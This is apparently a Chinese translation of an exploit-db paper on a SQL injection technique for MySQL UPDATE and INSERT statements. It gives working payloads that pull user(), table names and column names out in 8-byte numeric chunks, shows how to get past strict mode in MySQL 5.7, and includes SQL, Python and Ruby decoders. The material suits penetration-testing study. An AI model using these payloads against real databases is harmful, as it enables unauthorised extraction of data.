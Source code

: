 
# 【技术分享】一种新的MySQL下Update、Insert注入方法


                                阅读量   
                                **239116**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">2</a>
                                </b>
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者，文章来源：exploit-db.com
                                <br>原文地址：[https://www.exploit-db.com/docs/41275.pdf](https://www.exploit-db.com/docs/41275.pdf)

译文仅供参考，具体内容表达以及含义原文为准



[![](https://p1.ssl.qhimg.com/t01b1716e4413fc281a.png)](https://p1.ssl.qhimg.com/t01b1716e4413fc281a.png)

翻译：[testvul_001](http://bobao.360.cn/member/contribute?uid=780092473)

预估稿费：100RMB

投稿方式：发送邮件至[linwei#360.cn](mailto:linwei@360.cn)，或登陆[网页版](http://bobao.360.cn/contribute/index)在线投稿



**前言**

目前我们一般通过报错和时间盲注来对update和insert语句进行SQL注入，下面我们来讲解一种新的获取数据的方法。

首先我们来看一个简单的例子，假设应用会将username字段的结果会返回给我们：

```
$query = "UPDATE users SET username = '$username' WHERE id = '$id';";
```

HTTP应用中的参数是这样的：

```
username=test&amp;id=16
```

我最近研究的带内，带外攻击技巧刚好适用于这个场景，要理解我的技巧，我们可以先看下Mysql 是如何处理字符串的。在Mysql 中一个字符串等于 ‘0’，我们来看一下：

[![](https://p3.ssl.qhimg.com/t01cc281a4e0b2273e5.png)](https://p3.ssl.qhimg.com/t01cc281a4e0b2273e5.png)

假如我们把字符串和数字相加，结果和0 加这个数字一样：

[![](https://p0.ssl.qhimg.com/t01a5d3f314475c813a.png)](https://p0.ssl.qhimg.com/t01a5d3f314475c813a.png)

Mysql的这个属性给了我一些灵感，我们来看看BIGINT的最大值加上一个字符串会怎样？

[![](https://p5.ssl.qhimg.com/t01b604af8353f73320.png)](https://p5.ssl.qhimg.com/t01b604af8353f73320.png)

结果是 ‘1.8446744073709552e19’，这表明字符串实际上作为八字节的DOUBEL类型来处理。

[![](https://p5.ssl.qhimg.com/t0100a4f0da080b0577.png)](https://p5.ssl.qhimg.com/t0100a4f0da080b0577.png)

将一个DOUBLE类型和大数字相加会返回IEEE格式的值，为了解决这个问题我们可以使用OR。

[![](https://p4.ssl.qhimg.com/t0137dca0c4a3280ddb.png)](https://p4.ssl.qhimg.com/t0137dca0c4a3280ddb.png)

现在我们得到了最大的64bit无符号的BIGINT值0xffffffffffffffff。我们需要注意通过OR获取数据时，这个值必须小于BIGINT（不能超过64bit）。

<br>

**转换字符串为数字**

为了获取数据我们可以将应用输出的字段转换为数字，然后再解码回来，如下步骤：

```
String -&gt; Hexadecimal -&gt; Decimal
```

[![](https://p0.ssl.qhimg.com/t010a9008eb233745ae.png)](https://p0.ssl.qhimg.com/t010a9008eb233745ae.png)

通过SQL，Python和Ruby等语言我们可以将数字转回字符串，如下：

```
Decimal -&gt; Hexadecimal -&gt; String
```

[![](https://p5.ssl.qhimg.com/t0162c38655fe29fbab.png)](https://p5.ssl.qhimg.com/t0162c38655fe29fbab.png)

如上面提到的，Mysql中的最大值为BIGINT，我们不能超过它，也就是说每次提取的字符串不能超过8位。

[![](https://p0.ssl.qhimg.com/t01844be893e5213c30.png)](https://p0.ssl.qhimg.com/t01844be893e5213c30.png)

4702111234474983745可以被解码为AAAAAAAA，如果再加一个A,我们就不能正确解码了，因为返回的结果会是无符号的BIGINT值0xffffffffffffffff。

[![](https://p4.ssl.qhimg.com/t0164cc3747191e6a88.png)](https://p4.ssl.qhimg.com/t0164cc3747191e6a88.png)

如果需要获取的数据超过8个字节，我们需要使用substr()方法来将数据分片。

```
select conv(hex(substr(user(),1 + (n-1) * 8, 8 * n)), 16, 10);
```

n的取值为1、2、3…比如我们要获取的username长度超过8个字符，我们首先获取前八个字符，然后继续获取后面的8个直到得到NULL。

[![](https://p2.ssl.qhimg.com/t0112037d2bc764e2c3.png)](https://p2.ssl.qhimg.com/t0112037d2bc764e2c3.png)

最后我们把user()函数获得的数据解码。

[![](https://p1.ssl.qhimg.com/t01a7a74317de6f00ae.png)](https://p1.ssl.qhimg.com/t01a7a74317de6f00ae.png)

<br>

**注入技巧**

**获取表名**

```
select conv(hex(substr((select table_name from information_schema.tables where table_schema=schema() limit 0,1),1 + (n-1) * 8, 8*n)), 16, 10);
```

**获取列名**

```
select conv(hex(substr((select column_name from information_schema.columns where table_name=’Name of your table’ limit 0,1),1 + (n-1) * 8, 8*n)), 16, 10);
```

**利用UPDATE语句**

下面我们通过一个例子来说明如何利用更新语句。

[![](https://p0.ssl.qhimg.com/t01a73d6a1edd5b0f4d.png)](https://p0.ssl.qhimg.com/t01a73d6a1edd5b0f4d.png)

实际的查询语句可能是这样的：

[![](https://p0.ssl.qhimg.com/t011d353490f781c9c2.png)](https://p0.ssl.qhimg.com/t011d353490f781c9c2.png)

[![](https://p3.ssl.qhimg.com/t01f035c0c8d3056e1c.png)](https://p3.ssl.qhimg.com/t01f035c0c8d3056e1c.png)

**利用INSERT语句**

原始SQL语句如下：

```
insert into users values (17,'james', 'bond');
```

我们可以像update语句中一样获取数据：

```
insert into users values (17,'james', 'bond'|conv(hex(substr(user(),1 + (n-1) * 8, 8* n)),16, 10);
```



**<br>**

**MySQL 5.7中的限制**

你可能注意到这种方法在MySQL 5.7.5之后的版本并不奏效。

[![](https://p0.ssl.qhimg.com/t01b2d273751c10ecc4.png)](https://p0.ssl.qhimg.com/t01b2d273751c10ecc4.png)

通过研究MySQL 5.7发现Mysql服务器默认运行在‘Strict SQL Mode’下，在MySQL 5.7.5里，默认的模式包含‘STRICT_TRANS_TABLES’。在 ‘Strict SQL Mode’ 下我们不能将integer转换为string。

[![](https://p2.ssl.qhimg.com/t01b58383a4c7198204.png)](https://p2.ssl.qhimg.com/t01b58383a4c7198204.png)

为了解决这个问题，我们需要在注入时一直使用一个integer类型，这样就不会有任何问题了。

[![](https://p2.ssl.qhimg.com/t01c0f333a1564337c4.png)](https://p2.ssl.qhimg.com/t01c0f333a1564337c4.png)

另外任何用户都可以在他的会话里关闭‘Strict Mode’。

[![](https://p0.ssl.qhimg.com/t01b1d78f1a0b9799a9.png)](https://p0.ssl.qhimg.com/t01b1d78f1a0b9799a9.png)

如果想设置影响所有客户端的全局属性需要SUPER权限。

[![](https://p5.ssl.qhimg.com/t01705d4634503b37c6.png)](https://p5.ssl.qhimg.com/t01705d4634503b37c6.png)

开发者也可以使用‘IGNORE’关键字来忽略‘Strict Mode’，如‘INSERT IGNORE’或者‘UPDATE IGNORE’。

[![](https://p1.ssl.qhimg.com/t018bc3ee06bf7f0821.png)](https://p1.ssl.qhimg.com/t018bc3ee06bf7f0821.png)

<br>

**解码Decoding**

SQL

```
select unhex(conv(value, 10, 16));
```

Python

```
dec = lambda x:("%x"%x).decode('hex')
```

Ruby



```
dec = lambda { |x| puts x.to_s(16).scan(/../).map { |x| x.hex.chr }.join }或
dec = lambda { |x| puts x.to_s(16).scan(/w+/).pack("H*") }
```
